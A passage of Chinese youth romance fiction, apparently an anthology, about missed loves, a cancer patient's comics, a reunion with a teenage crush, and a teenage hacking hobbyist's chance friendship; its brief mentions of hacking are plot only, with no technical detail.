可是，我的自尊心告诉我，不能给你回短信。你这么多年都没有跟我联系，凭什么你一个短信就能终结这些年的沉默？

## 林子枫

那天我害怕听到你的拒绝，所以挂断了电话。也许吧，你当时根本就不认为我会比你考得好。后来上大学了，工作了，在银行里当了一个小职员。一天晚上突然发现有月食，于是给你发了一条短信，许久没有收到回信。我知道，你换号码了，也或许，你根本不知道给你发那个短信的人是我。

日子本来就可以这么平平常常地过去，可是有一天，我听同学说你母亲得了癌症，家里花光了几乎所有的积蓄，但要完成治疗仍需要30万元的费用。我想了想，于是做出了一件所有人都想不到的事情。

作为银行的小职员，我本不可能入侵银行的系统；但是看了多年的黑客杂志加上自己的勤学苦练，我成功地从银行划走了50万，然后将钱以慈善家的名义转到了你父亲的账户上。

很快我就被发现了，但我一直没有说出那些钱的去向，于是我被判了十年。在这十年里，我听说你母亲的病好了，你们也一直在寻找那个好心人，只是你们一定想不到吧？那个人就是我。

十年的时间说长就长，说短就短。出狱时的我已经过了而立之年，岁月的痕迹显现在脸上，让所有见到我的人都唏嘘不已。父母在这十年里去世了，我不能为二老送终，在别人眼里，我一直是一个不孝的儿子。

出狱后我根本没有去打听你的消息。毕竟，十年了，你应该早已为人妻、为人母，怎么还会记得有我这个人？有谁会用十年的时间去爱一个人，去等一个人？

因为有过前科，所以我没能找到工作。不得已，租了一间门市，借钱开了一家酒吧。我尽心尽力地做着生意，过着黑白颠倒的生活，每天忙忙碌碌的，也只有在我忙碌的时候我才能忘记你。

在我酒吧的隔壁是一家花店。由于我的酒吧里都是一些夜生活丰富的人，所以白天我睡觉时那家花店在营业，而我晚上工作时，那家花店又打烊了。它给我留下的印象就是白天睡觉时飘来的阵阵花香。听说店主是一个未婚的女人，应该是个心灵手巧的人吧。

## 夏陌诗

母亲的病好了，我们千方百计地寻找那个帮助我们的人，可是却没有线索。后来，我们也就放弃了。

我一直没有你的消息。当我终于有勇气给你打电话时却发现那是空号，原来，你已经换了号码。如果，我们回到那一天，我一定会给你回一条短信，让你出来陪我看月食。只是，那时的我却为了那可怜的自尊而没有回复你。

没有了你的消息，我一直很失落。家里经过母亲的那场大病已经没有了钱，我在街边开了一家花店补贴家用。我一直没有结婚，父母一直催促我，可我都以要尽心照顾他们而回绝了。其实，我是为了等你，只是我不知道你在哪里，又会让我等你多少年……

花店的隔壁是一家酒吧，而且只在晚上营业。别人都说里面很乱，老板是一个有前科的人，但却是个好人。好几次我想进去看看，但都由于第二天要早点营业所以回家休息去了。每次都告诉自己：“等下一次，下一次一定要去看看。”

时间过得很快，岁月的风霜染白了我的黑发。在父母的催促下，我结婚了。结婚那天我告诉自己，我要忘记你，要过新的生活。

婚后，老公待我很好，我们的小日子也过得蒸蒸日上，于是我们想着要换到一个繁华的街道开花店。

那晚，我们收拾了花店，收拾到了大半夜。当我们出来时，老公说要去隔壁这家酒吧看看。进去后我就看见了坐在吧台里的你，别人叫你老板，叫你身边的女人老板娘……

有多少人在等待中错过了彼此？有多少人还在苦苦地等待？有爱就说出来，不要给自己留下遗憾！

### 再病记（七）

### <一> 时光的利刃，割伤了你我。

“2011年8月21日清晨，我病了。刚起床走到房门口就轰然倒下，口吐白沫四肢抽搐，完全不省人事。”

“迷迷糊糊醒过来的时候，发现文米边哭边摇晃我，鼻涕眼泪都掉到我脸上……汗呀！”

“老正接到文米的电话后火速赶来，穿过东城区到朝阳区拥堵的车流，如神一般只用了半个小时，牛逼！……不过神还是吃了两张罚单……”

“然后，我就开始了与肿瘤君相恋的过程，当然，我是多么希望肿瘤君能早点和我分手快点啊……”

蔡小青逛着天涯，看着患了癌症的小熊姑娘画的那些小漫画，鼻子酸酸的，视线微微有些模糊。

“2岁的时候，看爱情剧竟会憧憬流泪；8岁的时候，只晓得狂抄暗恋对象的名字；16岁的时候，经历过懵懵懂懂的初恋；23岁的时候，社会新人懂得办公室恋爱；24岁的时候，从各种恋爱伤痛中慢慢成熟；26岁的时候，开始为步入婚姻而努力；28岁的时候，虽然跌过痛过，仍然很想拍拖结婚！最爆笑、最有料、最坦诚的心路历程共鸣曲——每个女孩儿都是这样长大的！”

这个是小熊姑娘的自绘画本里的引言。看得出来是个很积极很善良的姑娘，对生活有着各种屡败屡战的热情，即使这次遇到了肿瘤君。癌症，这是多少多么可怕的字眼儿，蔡小青念着这两个字的时候心底都森森地觉得发凉，她甚至不敢想象如果换了是自己，又会是怎样的一种态度？

这阵子的蔡小青格外地清闲，因为九尾那家伙不知是因为巴黎秋季时装展开幕了，还是LV新品发布会，还是香奈儿最新款的香水面市了，抑或者是别的原因。总而言之，她就是消失了，就像从来没有出现过一样。

于是各种宅在家里，晃荡在网上。在天涯上就看到了这么个小熊姑娘发的帖子。小熊姑娘从去年就开始生病，初时不甚在意，慢慢地却发现身体各种不适，在一次晕倒之后被朋友送至医院才发现是心脏附近长了一个瘤，简单点来说，就是癌症。

小熊姑娘把自己这段生病的过程全部都画下来了，简单的画风，幽默的笔触，淡淡的积极的态度，蔡小青几乎是一看就心有感触，仔仔细细地连主题帖都快看了个遍，然后万年潜水的她还注册了号，就是为了这个小熊姑娘。

很迟疑地，考虑了良久，蔡小青小心翼翼地打下一段话：“小熊姑娘是在贝城么？方便的话能去探望你么，我只是一个很喜欢你的漫画的八卦er。”

然后匆匆地关掉了网页，有种不知道为何的逃避的感觉。这个坚强的小熊姑娘积极乐观的态度让蔡小青自愧不如，甚至是一种羞愧的情绪。那关于一个叫做“勇气”的东西，也是蔡小青遗失了很久的东西。

蔡小青小时候觉得时光为什么这样漫长，涂口红穿高跟鞋要偷偷摸摸，对某个男生心存好感要小心翼翼，“未成年”三个字念出来不足三秒，却仿似比三十年还要久远。那时候心心念念希望能长大，能够自由地过自己想要的生活，比如吃爱吃的，买漂亮的衣服，认识帅气的男孩子。

成年后蔡小青才觉得青春为什么这样短暂，谈恋爱不再脸红心跳；白衬衫的少年明明还在眼角，却已只能在标记着“青春”的电影里找到。感情不再干净澄澈，在一起吃一顿饭讲述一次人生，仿佛就要苍老。恋爱总觉得是别人的事儿，“剩女”却是自己的光环。成人的世界里各种光怪陆离的景象，完全不是少年时能够想象的。

少年时的兢兢战战，少年时的单纯懵懂，少年时的义无反顾，少年时的不管不顾。成年后的浑浑噩噩，成年后的反复和情绪化，成年后的麻木呆滞，成年后的顾此失彼。蔡小青以为，她的青春还在，她还年轻，却发现时光已经不足够她去荒度了。

在这个成长的过程里，蔡小青为了小时候一直想要的至今也没得到的“自由”，遗忘或者说放弃了很多东西，比如说勇气，比如说乐观，比如说天真，比如说积极。

在蔡小青想着“要快点长大”的时候，她还很小很小。当她意识到至今已经长大了以后，却是再也回不去了。

而这个小熊姑娘，却宛若永无岛上的彼得潘，保留了少女时期的那些可贵品质，即使是面对癌症这般可怕的病魔，依旧能够坚持着笑对生活，是那种发自内心的坚强。而这些品质会让蔡小青每次一回想都忍不住有落泪的感觉。

### <二> 阴影的背后，总会有轻柔阳光。

蔡小青回到公寓的时候楼下的门卫拉住她说有她的信。彼时她已疲态毕露，浑身散架，只想躺到床上好好睡一觉，便不耐地挥手说弄错了，弄错了。

哪知对方也是昏昏欲睡，把信塞到了她手里便“砰——”地关上了门，拉上了灯。

蔡小青哭笑不得，只得就着别家的灯光看是给哪户人家的信，准备放在门外算了。一看却是傻眼，复古的信封上歪歪扭扭地写着蔡小青三个字。字迹无比熟悉，一看就是九尾那喜欢在言情小说上胡乱涂抹的鬼画符。明明都已经买了iPhone 4S了，九尾那家伙还有这样的闲心写信给她。

在这个浮薄的世界，便是给蔡小青写邮件的人用手都数得过来。蔡小青百思不得其解，木讷微疼的头越发难受。便开了门把信放在桌子上，去洗澡。洗完澡心情略好。蔡小青看了几张公司报表便准备去睡觉。突然想起了那份信，便拿过来坐在沙发上拆封，一边喝着浓得发苦的咖啡。

信封上没有落款，打开后末尾也没有。蔡小青叹了一口气，默默地继续看下去。

> “HI 老姑娘的小青同学（蔡小青默默吐槽：九尾这称呼真是毒舌加讨厌啊）：我是你最美丽的九尾姐姐。我知你现在一定很想念我吧，哦呵呵，不要客气，那么，请闭上眼，再多想我几分钟，让我美丽的容颜多在你脑海里浮现一会儿吧……”

九尾自恋的程度真是进展得一日千里。一闭眼，九尾那笑得跟狐狸，哦不，根本就是狐狸笑的脸就得意洋洋地出现在脑海中，挥之不去。

于是她闭上眼默念：“臭狐狸快滚开，臭狐狸死远点”，一遍又一遍。最终还是放弃，继续将信看下去。

> “……我知道你会狠心地不去想念我的，不过没关系的，我在这封信上下了‘铭心刻骨粉’，只要沾上半分，亲，你的脑海就会被我的倩影占据，是不是很感动啊？！”

蔡小青忍着满脑子乱窜的九尾，忍住了想把这封信生生撕碎的冲动，一脑袋黑线地继续看下去了。

> “好了，客套话说完了，现在说正经的啊。为了你的终身大事，我决定要回法国一趟，给你找寻传说中的‘秘宝’，来拯救你这无可救药的感情。当然，回法国是件隆重的大事，我得先去巴黎采购最新款的衣服、鞋子、香水、包包什么的，为了你，我可是又要大出血了，是不是很感动啊……哦呵呵，等着我快点回来吧，到时候你就能嫁出去了！！！……”

蔡小青狠狠灌了一口浓咖啡，终于把这封信看完了。

天知道九尾这次是想去巴黎大采购，还是真的……

### <三> 蓦然回首，灯火阑珊处。

> “病后几乎都在医院，睁眼就是灰白的天花板，入耳就是化疗、吃药、体温、白细胞增减……日子的无聊可想而知。但对于一个画漫画的人来说，生活给予我的，不管是幸运还是坎坷，是快乐还是痛苦，是喜是忧是笑是哭……这所有情绪与经历通通可以成为付诸笔尖的素材。”

这个是小熊姑娘在肿瘤君的帖子里的开头引语，蔡小青就是为了这段话心折不已。在东城XX医院门口徘徊了良久，却不知道该不该进去。

想象中，小熊姑娘该是个总是低着头微笑，温婉如玉，便是与她相处，也是细致入微、善良乐观的女孩子，眉目间淡然，总是一副波澜不惊、无惧无畏的样子。

甚至在给自己的留言回复的时候，小熊姑娘依旧是那样子的温和乐观，说她的病不要紧，等健康了就和蔡小青约着见面，说医院的环境不太好，怕病会传染到健康的人，温柔体贴的态度，细致得令人发指。

即使是简单的一句“你暂时不能够来探望我”，也被小熊姑娘说得这般让人觉得温暖，这个就该是所谓的人格魅力吧。

胡思乱想中，蔡小青一步步挪到小熊姑娘的病房门口，透过门缝偷偷地看了进去，有个姑娘正安静地躺在病床上睡觉。白色的病服妥帖地穿在身上，午后的阳光明媚地洒在她的脸上，连尘埃都会随她翩翩起舞，一片安详的感觉。

她静默地睡着。周围喧嚣的声音传到蔡小青耳里都仿佛细若蚊蝇。她只听得到她的呼吸，薄如蝉翼。若是时光就这么停止，看着她就这么睡着，蔡小青莫名地明白了什么叫做岁月静好。

这个就是小熊姑娘么，那个乐观的善良的女孩子。蔡小青伸出手隔着遥远的距离轻轻“摸”了一下小熊姑娘，在心里默默祝福着。

转身，下楼。在拐角处却不小心与人相撞。

蔡小青揉揉撞得微疼的脑袋，才发现撞着的人格外地高，自己的额头才到人肩膀。这种相撞的姿势看起来就显得分外暧昧，竟像是某个不怀好意的色女故意扑到人家怀里去的一样。

“唉，你是少林的十八铜人么？撞上去真疼。”蔡小青嘟囔着，抬起头打量撞着的人。然后微微愣住，手里的给小熊姑娘买的花掉到了地上亦不觉。

这是个很干净的男子，瘦瘦高高，衣着简单大方，整个人看起来清清爽爽的，有着说不出的令人倾心的气质。

蔡小青看着他清澈的黑色眼眸，眼里有她皱着的眉，有她的冒失和莽撞。

他只是温和地微笑，眯眼，不说话，有一些丝丝的性感。霎时让蔡小青的心砰砰砰地跳动。

蔡小青羞红了脸，那男子却也不答话，气氛有点儿僵持不下。

忽然包里的手机铃声响了起来，蔡小青借着“话遁”，赶紧穿过男子身旁，夺路而逃，留下了那束送给小熊姑娘的花安静而孤独地躺在地上。

### 侠隐仙踪

逃到楼梯下一个拐角的时候，隐约听到有人在跟那个被她撞到的男子打招呼：“梁医生……”

“梁医生”？！这个就是小熊姑娘漫画里的那个老是带着口罩，但是即使只是露出两只眼睛也美貌异常的帅哥医生梁医生么？！

蔡小青忽然觉得这个世界诡异莫名，所有的事情都有着纠结的关系。来看小熊姑娘，结果还能“撞”上那个美貌的帅哥梁医生，额，这算是买一送一么。

那种莫名的心动的感觉，让蔡小青的心脏里忽然喧嚷着对未来的憧憬。她的双眼内仿佛又能看到世界的美好，虽然她总觉得她的梦想和勇气尽管已不知去往何方，但仍旧坚信它没有消失，它一定没有消失，它只是粘附于自己的衣角，不会被清洗，不会成为污渍。

蔡小青还能理直气壮地说，我相信未来热爱生活，尽管这假装抵不过黄昏的吞噬。

我还没遇到将我的心事收藏，妥善安放，免我惊苦的人，我还相信会遇到。

我还年轻，我还有大把的时光可以荒度。每一声时钟的行走都是人生的印迹，走过的路都镌刻成风景，身前是春光烂漫的远方。

是的，我还年轻，我所知甚浅，也可能走不了多远。

但这不能阻止我走向你身边。

我未来的良人。


### 一、瞧！我一个人的生活

一直以为，内心的那丝温情是留有给一个真爱的。所以，现实生活中留给人的永远是尖刻和冷漠。也许是我挺傻逼，把十分的心给了先爱的人。尔后，因为情殇，留给下一个爱我的人已是残缺不全的五分心。

其实早有写点什么的必要了，可是就是迟迟不愿提笔。其实早有将他付诸纸上的念头了，但是偏偏不想掀起心里似甜非甜的记忆。

我是一个18岁的小子，你可以叫我阳。说起来很惭愧，我是一名高中生，因为年龄的悬殊，走到哪里都是背负着受人奚落的高帽。我也考虑过这是为什么？我也尝试着去改变，重新正面人生，不过这些想法随着时间的推移最后还是无疾而终了。我的生活很单调，我的世界也虚拟，我每天都在无关痛痒地生活着，仿佛这个世界与我无关。我喜欢黑夜，喜欢它的静谧，当夜幕低垂我仿若才是真我，那个阳光、灿烂、爱笑的我。朋友都戏谑我是夜游神“昼伏夜出”，这时我总会不自主地苦笑，因为除了这样我再也不知道我能用什么样的姿态去回应他们了。我是一个黑客爱好者，也许这你早已从前文的自白中知晓。我觉得好多东西都是上天已经写定，就好比我注定是一名黑客爱好者一样。我的天性使然，我不会像同龄人那样早早地沉溺在爱情海中，也不会像本分的学生那样，每天墨守成规地去上学。没错，我讨厌爱情，因为没有一份爱情会比金钱来得更稳妥些。自然，我也反感应试教育，它那些固步自封的教学手法、滞后的课本知识让我时刻唾弃，让我心生厌恶。这些都是我与生俱来的意识形态，无人抗拒，所以我选择沉默，后来这沉默就演变为了逆来顺受，逐渐地我变得更加孤僻，性格也开始直来直往。也许是我的性格让我踏上了涉黑之路，我称不上是黑客，因为我没有高深的技法；我也不算是菜鸟，因为我的系统知识颇为完备。

今天是八月十五，我只身一个人在异地求学。望着天空的圆月，我像很多离乡未归的游子一般在寄托着对家乡的情思，月是故乡明，我寄故乡情。踏着星夜的月光，我把步调漫向了远方。一个店牌映入了我的眼怀——“穿越米线”。我笑了，你懂得！这是一家网吧，和众多网吧一样，空气中充斥了烟草的味道。我举目四望，上网的顾客神态迥异，没有一个人会注意到我的到来。我刻意加重了步伐走向那个属于边角的位置。

嗯吧！其实黑客和常人相比并无反常之处，没有人会精明地洞察到你的身份。嗯吧！每一位黑客爱好者都是一个独行者，他们总是倾慕于角落的某一个位置，总是会说：“嗨！我要开始我的革命了。”原来黑客也要闹革命。

惯性动作，Windows启动完毕，我就快速地登录了QQ。看到我的QQ面板了吗？它孤零零地伫立在那儿。看到那透明的皮肤了吗？这是2011~2012年度很流行的网络技术。说实话我并不喜欢美化QQ，很多人喜欢把装裱它当成是一种炫耀的手段，我不敢苟同，但也不会给予坚决的反对。双击Windows桌面上的酷狗音乐，一阵“黑客之音”取代了“Hello Kugou”在我的耳畔响起。我笑了，和我看到这个网吧名字时一样地笑。我又回到了这里，只是我在你不在，说好的不见不散没了；说好的不离不弃也没了。机子是419号，我清楚地记得它曾经被我拿下过，这使我感到了莫大的自豪。

那天我打开“Pubwin Hacker x files专版”，三下五除二地破解了系统还原，结束了收费终端。我心底会心地笑了，我发誓那笑是发自内心深处的蠢蠢欲动。那是我第一次的实战，看了这么多年的《黑客X档案》，第一次的小试牛刀就这么完美地收官，这让我格外地诧异。一阵悦耳的铃声预示系统重启完毕。老规矩，双击桌面的QQ图标快速登录QQ。伴随着一阵咳嗽声的轰炸，一个陌生人加我为好友，我泛泛地点了通过。对于一个网络虽有人气的我，被加QQ好友的机率比买彩票不中的机率还高，这并不是什么稀奇的事情。不过，那人不久就说话了：

- H：你有病啊！
- 我心里想这是什么人来着，咱谁有病？也许是出于初战告捷的激动，也许是出于每逢佳节倍思亲今天偶却单身落寞的缘故，对于他这样的神经病言论，我竟然也给予了回复。
- 我：你有药啊！
- 我：你是不是有病！
- H：你能治啊！
- 我：……
- H：………………

接下来就是短暂的双方沉默，我关掉了对话框表示对此不予理会。这林子大了什么鸟都能乱飞，鸟大了什么林子都敢飞~~~~只是，五分钟时间还不到，沉默就又一次被突围了，他这时发到：

- H：哎，刚才不好意思哈！
- 我：算了，没关系。说说你什么组织的吧！
- H：？？？
- 我：（这小子还装纯）白道的黑道的？
- H：？？？？？
- 我：（尼玛，这菜鸟的级别都快赶上波音七四七了，还在装萌）白客还是黑客？
- H：额？我只是想问你个问题
- 我：问吧
- H：你可以帮我在电脑上下载个微信么？
- 我：（汗，我瞬间额头上渗出了三道杠，微信还有电脑客户端？这是哪位大神说滴？）好吧，只要你在我身边我一定帮助你。

我给了他一句狗血且不可能实现的答复。

### 侠隐仙踪

H：好的，你等我。

接下来就是无边际的寂静和等待，估摸着大约过了五分钟，我感觉有人在背部拍了我一下；我悻悻地掉过了头，忍住心中的怒火给来人努力地挤出了一个虚伪的微笑（这是偶的招牌式动作，偶不忘和大家侃大山一下，正是因为这个招牌式的动作，偶曾经一度成为中老年妇女心中的偶像= =！）。

我：“您好，有什么事情吗？”

H：哦，我就是刚才和你聊天的那个人。

我惊讶之余仔细地打量了一番站在我眼前的这个人，一个十七刚出头、乳臭未干的小子，一副纨绔子弟的模样。

我：这个，那个，……

H：怎么了？有什么问题吗？

我：哦，没什么。你刚才是说让我帮你下微……微……信……是吧？

H：嗯！

我：哦，是这样的，其实电脑上并没有微信客户端的。

H：嗯？

我：（尼玛，你是“嗯哈”协会的？一句都不离“嗯”）要不这样子吧！你说一下你要用它来做什么；我看能从其他的角度帮你解决这个问题不？

H：听说有一个软件可以加对方的手机号码为联系人，你知道吗？

我：哦！你说的应该是飞信吧，微信目前为止是没有官方发行版PC端提供下载的。（哈哈！这货，搞得我太欢乐了，原来这世界还有分不清飞信和微信的怪人存在，而这个人却恰巧让我给碰到了）

H：可能是吧！麻烦你帮帮我吧！

从他的目光中我似乎看到了期盼的眼神，其实自己也是有言在先，只要他能找到自己就一定会去帮助。

我：好吧！我就在我的机子中帮你下载吧！

他跑出去了了一会儿，买了两斤饮料回来，顺手给了我一瓶，看着这温馨的场面，我石化的心顿时起了一阵涟漪，暖暖的。因为这一举动，我对他也没有了初识时的戒心，闲聊中我知道了他是本地人，家境比较阔绰。（我想这也是他不知道微信和飞信区别的原因吧，有钱人都这样子，坑爹啊！）其实自己只身在异地，身边有时是需要个朋友的，他这个人又恰巧笨得搞笑，顿时想交他这个朋友的想法就在我的心底萌生了。（当然这一切只是源于一个想法。）

H：好了，我的事情麻烦你了，走吧，很晚了，我送你回家吧！

我：汗？你要送我回家？两个大男生的漫步，会不会太有格调了！

H：什么？

我：没什么，走吧！（毕竟盛情难却，其实我也很想交他这个仗义的哥们）

H：嗯，我们后门这里走，我外边有车。

我：&%%。（尼玛！你敢不敢再有钱点，我诞生了十八年之久尼玛连个驾照都没有，连辆二手自行车都骑不起…………）好的！

就这样，这里的路况很好，一路顺风地就飙到我家门口，我下车准备回家，心里还想着自己肿么就这么笨蛋，却不晓得和他要个电话号码，无奈只能慢慢向前踱步，心里也深深地遗憾着，遗憾一个朋友的擦肩而过，遗憾一个臭味相投的失之交臂。

突然一个声音叫住了我：“哎~”声音的来源自然是H。

H：我叫XXX，你就叫我小航吧！你还没留电话呢？

我：你好，我叫阳，我的电话是XXXXXXX。

就这样我们有了彼此的联系方式。

第二天一早阳光和煦，我掏出手机快速地做了一个拇指运动：“昨天谢谢你送我回家，交到你这个朋友我很开心。”（毕竟咱是男生，基本的绅士风度还似乎要具备滴！）

想不到的是时间点滴流逝，那厮居然都没个回复，于是我急了，直接拨了个电话打过去，出乎我意料……

### 最后（八）

### <一> 这一次，擦身而过，故衣不相逢。

六点三十四分，天仍然是黑的。

听到闹钟的声音，忽然想张口说些什么，蔡小青开口唤了声才发现嗓子沙哑得像是磨糙了的石子，吞咽口水也带着艰涩的疼。窗外下着雨，滴滴答答的声音，脑袋里晃过半幅道不明的画面。

十二点将近的时候蔡小青关了电脑准备睡去，竟是辗转反侧，想着索性睁着眼睛到天亮，却又迷迷糊糊睡去。醒的时候两点多，房间里没有声音，窗外没有光，已经开始在下雨。隔壁的房里传出轻微的电视声，桌上手提的电源闪着幽幽的光。野猫一声高过一声的嘶叫，想着梦里呼啦啦飞起遮天蔽日的大片鸟鸦，像是黑色幕布一样。蔡小青孤独地站在路边，陌生的城市里，不知道要去向哪里又要怎么去。是一个站牌的旁边，暗自惊惶的时候有人拍了拍肩膀，说，哎是你啊。一偏头，他的样子却是看不清了。

蔡小青摸索到手机，按亮，上手机QQ，在线好友2人，还有一个是他，格外执拗地挂着。

> “分离之后，再相逢，是缘分么。”

他的签名却是不如他的QQ那般执拗，透着一丝软弱的味道。

五月十九日的时候，天空阴沉，房里的墙壁还潮，抚上去手心湿润而清凉。蔡小青觉得很闷，街道上的喇叭声，行人面色匆匆，路过一家餐馆的时候看到里面坐着两个人，面色黯然，对坐着缄默不语。灯光是昏黄的，像是回忆卷轴一般的色泽，那种泛着被锈蚀的时光布满灰尘，屡屡想起都似是昏暗暗看不清的色泽。走入巷口的时候见到开了读小学时便在的路边摊。然后路过幼时的母校，已经整修过，墙壁粉刷得嫩白，操场空旷，教室整齐。

蔡小青想起小的时候抬着水去教室，路过操场的时候看见低年级的一个小孩，睫毛很长，不记得是什么样子，只记得生得极好看。当时尴尬着自己过于粗鲁的姿势，想要走近些看得更清楚，又觉得害臊，只好垂着头快速地走开。

想起小时候因为相貌平平，才艺全无，除了念书别无所长的自己，偷偷地躲在走廊后面，看着那些漂亮的多才多艺的姑娘被老师宠爱着，绽放着如花一般的身姿和容颜，有些黯然的心情。

还有外面的那些单双杠，和教室里春日洒进的暖光。有次公开课的时候被分配到一个节目，要念词，蔡小青还记得第一句要说的话是“家，是最温暖的地方”。还有实习来的老师要走的那天，全班落下的眼泪，蔡小青没有哭，只是含着眼泪咬着唇不许它掉下来。以及初次来潮，血色沾染了裙子，不敢与人讲起，硬是拖到最后一个人走了才遮遮掩掩地走出教室。已经是傍晚，门卫还说起，学习这么晚，蔡小青笑得又尴尬又不知所措。

“没有我参与。”

“我现在暂时还无法放下你，你知道我舍不得，虽然时光会过去，你会有你的生活，我却依旧停在十七岁的时光在等你。”

“只是遗憾不能等到你，也不知道，能不能被你等到。”

杜清和的攻势是如此的猛烈，突如其来的甜言蜜语海誓山盟随着QQ那个素净的头像的闪动，铺天盖地而来，击打得蔡小青内心溃不成军。

蔡小青一直是宣称自己没有谈过恋爱的，因为最早的那一丝萌芽，早就在十六岁的时候被掐断了，蔡小青觉得自己这辈子都不知道如何去喜欢一个人了，索性放任着变成了如今这般模样。

闭上眼，遇见梁医生，探望小熊姑娘，相亲JP男，穿越寻情记，遇上九尾狐，宅女大学生活……再往前回溯，离这个名字就越发地近了，像是个封印，一点点露出了它真实的样子，让蔡小青心里觉得莫名的恐惧和害怕。

时光逃跑的速度总是比我想象的要快，回头你还在不在。

杜清和是高二一班的男生，长得很像蔡小青喜欢的萨摩耶，瘦削挺拔的样子，长年穿白色的衣服，眼睛乌黑乌黑的，笑起来却很温暖明媚，尽管不笑的时候看起来有点冰山一般冷冽的感觉。每一次刮大风，她总是怕杜清和就这么被吹走了。她想，这样她肯定会难过得要死的。因为她喜欢袁磊。

尽管她那时候并不明白什么是喜欢。

可是蔡小青觉得自己会动不动就去注意他，听说他跑步受伤会难过，会偷偷跑去买创口贴放在他书桌里，会在其他女生提起他时很注意地去听，听说他喜欢陈奕迅就去买来盗版的磁带放在她破旧的随声听里听。用她蹩脚的普通话学他唱粤语。这样就是喜欢了吧。

为什么要学粤语呢。

因为杜清和在学校广播室春游聚餐的时候清唱过一首张国荣的《红》，身为小编辑的她蹲在人群中觉得很好听很好听。

蔡小青就是那一天开始喜欢杜清和的。

她还记得。

那样生机勃勃的草地上，姹紫嫣红的花儿开了满满一地，阳光淡淡地洒下来，杜清和安静地坐在一棵开满花的树下。他那样瘦，瘦得像是下一秒就要被风吹走一样。他那样安静，静得像是连她的呼吸声都会干扰到他。蔡小青却是在隔着他不远的地方，小心翼翼地收拾着刚刚聚会留下的垃圾。

忽然他开口低声唱起歌来，声音清澈，因为刻意地压低而有微微的沙哑，他微微地晃动着的身子，音乐声大片大片地落在他的肩上。他的声音大片大片地落在她的心上。蔡小青的心脏像是没有力量一样软软的，她觉得自己像是下一刻就要失重飞起来。

那天校里广播室春游结束之后，傍晚蔡小青走路回家的时候看到他骑着自行车从前面驶过来，她一冲动就站在路中央拦住他。

她捏着衣角，脸蛋通红，嗫嚅着说，杜清和，你今天唱得很好听。

然后听见他说，你知道我在唱什么吗。

蔡小青抬头，看见他瘦削的脸上没有神情，忽然觉得自己很蠢很笨，弱弱地说，不，不知道。

果然听见他开口，那样淡淡地说，你连我在唱什么都不知道就觉得我唱得好听，你们女生都是这么随便的吗。

她怔住。

他将自行车一偏，就从她身边骑走了。

她愣愣的，觉得难过。

蔡小青刚才很软很软的心脏，忽然破了一个口子，刮进了大风下起了大雨一样，让她觉得连自己的脸，都湿润润了。

窗外淅淅沥沥地下起了雨，蔡小青的表情有些呆滞。她最近总是很容易就想起以前的事情，大概是没了九尾的陪伴，家里的逼婚夺命呼呼依旧进行中，只能凭借记忆里的这些东西来释放一些念想。

也是如此，才让蔡小青恍惚想起原来自己也能喜欢一个人喜欢那么久吗，这样的问题。只是总是没有答案，她甚至已经辨认不清，自己的感情究竟是因为尚且年少没有得到而产生的不甘，还是因为觉得自己明明可以做很好却没有做到的悔恨，又或者，是真的割舍不下的喜欢。而这段模糊又深刻的感情到底是不是真的存在过。

顾前不顾后，顾左不顾右，蔡小青忽然想起那位小说中的人物四顾剑了，自己现在这种茫然的心情倒是真的适合去传承这拔剑四顾心茫然的“四顾剑”，也或者说是“四不顾剑”。

其实所谓的“顾”与“不顾”，“在乎”与“不在乎”都是诛心之论，仅此而已。

### <三> 为君沉醉又何妨，只怕酒醒时候最断肠。

很多时候，我们总是被小时候的心情影响着。小时候的不懂事，小时候的奔赴，小时候的大无畏，在懂事后看起来都那样遥远并且想要急于否定。

成长就是不断地摒弃自身上被人群所否定的，携带上适应生存的，能够更好地诠释自己的特质，褪下不成熟的青涩，染上社会给予的色彩。

而那些那样遥远的心事啊，那些想要超过谁，那些为了得到谁的注意而那样努力去做一件事情，那些笨笨的，却那样值得怀念的情感。什么时候，我们竟然都不再想起了呢。

杜清和跑来问蔡小青，喜欢可以延续多久。蔡小青曾经在心里回答过，“我很喜欢你，我可以喜欢你多久。在等不到你，在看不见你，在无法触碰你，在明知道你有与我不一样的人生要谱写之后。”

可是十年前的心情早就模糊不清了，再回头，各自都已经不是当初的那个人了。

“我不去找你，你也别来找我，相安无事，便是如此。”蔡小青默默地改了QQ签名，敏感的杜清和却执拗地跑来追问，“你这句话可是在说我，可是在说我？”

蔡小青一愣，这个执着的喜怒溢于言表的人，可还是那个人杜清和么，便呐呐地推脱道，“别想太多，只是在说游戏里的人和事儿，与你无关。”

“游戏？什么游戏？我能去陪你一起去游戏看风景，赠你游戏中最美丽的冠服最厉害的武器，宠得你如公主一般么？”顶着杜清和头像的“陌生人”狂热地说。

蔡小青忽然就觉得脑子里有些失重，这样的杜清和可是当初的杜清和，可是自己偷偷暗恋过的杜清和么？

“不用了，我先下了。”逃一般地关掉了电脑，蔡小青出门晃晃悠悠地乱走着，没有目标，像只无脑的苍蝇一般。这种比喻真的不怎么美好，可蔡小青真心就是这么觉得自己的。

“诶，你是……上次丢花的那个女孩子……”略微迟疑但是格外清澈的声音忽然响起，蔡小青一抬头，居然是梁医生，小熊姑娘漫画里又可爱又帅气的梁医生，被偷窥小熊姑娘的自己冒冒失失撞到的梁医生。

蔡小青定定地看着眼前的这个男子，不回话，却又冒冒失失地问道：“你……你为什么会出现在这里……”

梁医生指着自己的鼻子，皱皱眉笑着说道：“我为什么在这里啊……因为我家就在附近啊。”

蔡小青愣愣地，一低头，发现梁医生的手里还牵着一只极其英武不凡的“井犬”哈士奇，也对，如果不是家在附近，又怎么会跑大老远地遛狗呢。可是，这世界也真是小得可怜呢。

为君沉醉又何妨，只怕酒醒时候最断肠。

跟梁医生一起散步的时候，蔡小青忽然想到这句话，为君沉醉又何妨，只怕酒醒时候最断肠。几天前一本小说里所用到的句子。她想到这句话，脸上依然带着羞涩的笑容，静静地看着站在身旁这个一脸温和平静的人。

一个人一辈子能喜欢多少人呢，能爱多久，没有爱能走多久。

感情说到底真的是很麻烦的一件事情，可是却也很简单。如果可以只看眼下，不顾明朝。

只顾眼下言笑晏晏，何惧他朝离别泪目纵横。

一切该来的，就尽管来吧，我自笑脸相迎便是。

### 青春是一首晦涩难懂的诗

S.A.

每天下午放学，校足球队都会结束常规训练开始进行分组比赛，这时候球场周围总会有稀稀拉拉的几个观众，而她，也在其中。她每天都会很准时地出现在球场，在一个很不起眼的角落里坐下，静静地看球，一直到夕阳西下，训练结束，她才默然起身，独自回家。

子枫加入球队已有两年，他以精准的脚法与精湛的球技成为了球队的灵魂人物。球队相信，有他在，就永远不会输。

